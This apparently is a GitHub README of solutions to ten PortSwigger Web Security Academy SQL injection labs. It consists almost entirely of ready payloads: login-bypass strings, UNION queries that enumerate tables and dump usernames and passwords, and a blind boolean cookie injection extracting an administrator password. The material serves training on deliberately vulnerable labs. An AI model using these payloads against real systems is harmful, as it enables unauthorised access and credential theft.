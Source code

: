 # PS-academy-Labs

1. https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data
     /filter?category=Clothing%2c+shoes+and+accessories%27%20OR%201%3D1%20--%20
     ' OR 1=1 -- 
2. https://portswigger.net/web-security/sql-injection/lab-login-bypass
   Solution #1
   administrator
   ' OR 1=1 --

   Solution #2
   administrator'--
  
3. https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle
   /filter?category=%27+UNION+SELECT+BANNER,NULL+FROM+v$version--
   
4. https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft
     GET /filter?category='+UNION+SELECT+@@version,+NULL# HTTP/2

5. https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle
   GET /filter?category='+UNION+SELECT table_name,NULL FROM information_schema.tables-- HTTP/2
   GET /filter?category='+UNION+SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_ocqdko'-- HTTP/2
   GET /filter?category='+UNION+SELECT username_qrvfyq,password_ofzdsw FROM users_ocqdko-- HTTP/2


6. https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle
     GET /filter?category='+UNION+SELECT+NULL,NULL+FROM+dual--
     GET /filter?category='+UNION+SELECT+table_name,NULL+FROM+all_tables--
     GET /filter?category='+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_BEQQVS'--
     GET /filter?category='+UNION+SELECT+USERNAME_YUOEWA,PASSWORD_XHXKTJ+FROM+USERS_BEQQVS--
   
7. https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text
     GET /filter?category=Pets'+UNION+SELECT+NULL,'2NSEW7',NULL--
   
8.  https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables
     GET /filter?category=Pets'+UNION+SELECT+username,password+FROM+users--
    
9.  https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column
     GET /filter?category=Pets'+UNION+SELECT+NULL,username||password+FROM+users--

10. https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses
     GET /filter?category=Gifts HTTP/2
     Host: 0ad6007503ff60c98010453d007900de.web-security-academy.net
     Cookie: TrackingId=bmSN7mgxz39pxSxs' AND SUBSTRING((SELECT password FROM Users WHERE username = 'administrator'), 1, 20) = 'x95u9gp2jz87dvomf0fu; session=VwOufCAF9NUO7dGbHzrvkOeKjmCTMMF7
